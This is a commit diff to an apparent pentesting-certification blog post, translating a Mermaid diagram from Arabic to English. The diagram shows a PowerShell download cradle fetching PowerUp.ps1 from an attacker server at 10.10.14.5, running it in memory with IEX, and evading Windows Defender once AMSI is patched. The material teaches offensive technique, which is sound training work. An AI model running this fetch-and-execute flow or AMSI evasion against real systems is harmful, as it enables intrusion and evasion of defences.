

One commit to 3bdo-fathi/3bdo-fathi.github.io changed the second of 5 diagrams in _posts/2026-11-12-ecppt-v3-part-10-powershell-for-pentesters.md. Above: the diagram before and after it, drawn with Mermaid. The commit also changed other lines of this file and 11 other files, not shown here.

````diff
--- a/_posts/2026-11-12-ecppt-v3-part-10-powershell-for-pentesters.md
+++ b/_posts/2026-11-12-ecppt-v3-part-10-powershell-for-pentesters.md
@@ -73,16 +73,16 @@
 ```mermaid
 sequenceDiagram
     autonumber
-    actor Attacker as جهاز المهاجم (Kali Web Server)
-    actor Victim as عملية باورشيل (powershell.exe)
-    participant RAM as ذاكرة الوصول العشوائي (RAM)
-    participant Defender as مضاد الفيروسات (Windows Defender)
+    actor Attacker as Attacker HTTP Server (Kali: 10.10.14.5)
+    actor Victim as PowerShell Process (powershell.exe)
+    participant RAM as Process Working Memory (Heap)
+    participant Defender as Windows Defender (AMSI Engine)
     
-    Victim->>Attacker: طلب سكربت هجومي: (New-Object Net.WebClient).DownloadString('http://10.10.14.5/PowerUp.ps1')
-    Attacker-->>Victim: إرجاع نص السكربت كاملاً عبر اتصال HTTP
-    Victim->>Defender: AMSI يعترض محتوى السكربت لفحصه
-    Note over Defender: في حال عدم تجاوز AMSI: يتم حظر السكربت فورًا!
-    Note over Victim: في حال ترقيع AMSI: يمر السكربت بسلام
-    Victim->>RAM: تعليمة IEX تنفذ محتوى السكربت مباشرة في مساحة الذاكرة
-    Victim->>Victim: استدعاء Invoke-AllChecks دون وجود أي أثر على القرص الصلب!
+    Victim->>Attacker: WebClient requests script: DownloadString('http://10.10.14.5/PowerUp.ps1')
+    Attacker-->>Victim: Returns raw script content across HTTP stream
+    Victim->>Defender: AMSI intercepts buffer for signature scanning
+    Note over Defender: If AMSI is unpatched: Blocks malicious script!
+    Note over Victim: If AMSI is patched: Scans bypassed cleanly
+    Victim->>RAM: IEX compiles and executes script directly in memory
+    Victim->>Victim: Operator runs Invoke-AllChecks without touching disk!
 ```
````
